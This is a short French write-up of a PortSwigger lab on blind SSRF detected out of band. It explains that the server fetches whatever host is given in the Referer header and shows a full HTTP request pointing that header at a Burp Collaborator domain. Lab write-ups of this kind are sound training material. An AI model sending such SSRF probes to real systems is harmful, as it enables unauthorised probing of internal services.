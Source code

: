 # Lab

https://portswigger.net/web-security/ssrf/blind/lab-out-of-band-detection

## Solution

Avec un scan actif de Burp Suite, on peut voir que le serveur fait des requêtes vers l'host renseigné en header `Referer`.

```http
GET /product?productId=1 HTTP/2
Host: 0a840088037851f688dcedb900d8009f.web-security-academy.net
Cookie: session=nP36DfrcbnE5vAzm6ZdMJIjNJ20tEY6K
Sec-Ch-Ua: "Not=A?Brand";v="99", "Chromium";v="118"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: document
Referer: http://easq1puqxcwqzdvc2p6yk5q73y9sxllb96wxkm.oastify.com/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
```